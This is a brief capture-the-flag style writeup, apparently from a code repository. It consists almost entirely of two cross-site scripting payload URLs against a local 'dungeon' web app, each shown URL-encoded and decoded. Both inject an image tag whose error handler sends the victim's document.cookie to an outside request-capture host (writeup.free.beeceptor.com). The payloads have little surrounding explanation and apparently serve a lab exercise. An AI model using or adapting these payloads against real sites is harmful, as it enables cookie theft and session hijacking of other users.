 # Writeups

- http://localhost:5000/dungeon/-100/%3Cimg%20src=%22x%22%20onerror=%22document.location.href=%60https://writeup.free.beeceptor.com%3F$%7Bdocument.cookie%7D%60%22%3E
    * Url decoded: http://localhost:5000/dungeon/-100/<img src="x" onerror="document.location.href=`https://writeup.free.beeceptor.com?${document.cookie}`">
- http://localhost:5000/dungeon/-100/%3Cimg%20src=%22x%22%20onerror=%22document.location.href=%60https://writeup.free.beeceptor.com%3F%60+document.cookie%22%3E
    * Url decoded: http://localhost:5000/dungeon/-100/<img src="x" onerror="document.location.href=`https://writeup.free.beeceptor.com?`+document.cookie">
